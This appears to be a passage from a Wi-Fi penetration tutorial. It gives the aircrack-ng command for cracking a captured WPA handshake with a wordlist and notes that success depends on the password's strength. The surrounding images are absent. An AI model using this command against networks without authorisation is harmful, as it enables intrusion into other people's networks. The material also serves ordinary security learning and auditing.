
 - Now we will crack this captured WPA handshake PSK using
aircrack-ng -w wordlist.txt -b <AP BSSID> capture-01.cap. This will give us the AP's password. Now, the problem is the success of this attack is entirely dependent on strength of password used. If its a complex password with uncommon keywords then there is very little chance we could crack it using a wordlist or dictionary attacks. Of course we can try brute-forcing but that could take months, years, decades or centuries depending on password strength.
